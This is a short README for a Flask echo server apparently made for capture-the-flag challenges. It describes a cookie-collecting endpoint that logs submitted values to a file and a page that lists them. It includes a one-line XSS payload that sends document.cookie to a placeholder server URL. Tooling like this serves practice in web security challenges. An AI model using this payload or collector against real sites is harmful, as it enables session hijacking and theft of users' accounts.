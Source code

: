 # flask-echo-server

A simple echo server built with flask for CTF

## echo
> Removed options; Just minimal echo server left.

![](screenshots/echo.png)

## cookies
> Farm and view cookies fast!

### farm cookies
Sending a request to `/c?c=COOKIE` adds `COOKIE` to `cookie.txt` in the same directory with `echo.py`.

The following script sends all the accessible cookies in the current document to the server(Can be used in XSS challenges).
```HTML
<script>location.href = "SERVER_URL/cookie?c=" + document.cookie;</script>
```

### view collected cookies
Open a browser and go to `/v` and view collected cookies.

![](screenshots/cookie.png)

The screenshot above is the result after I sent `C00K1E-M0n$T3R!!!` three times.
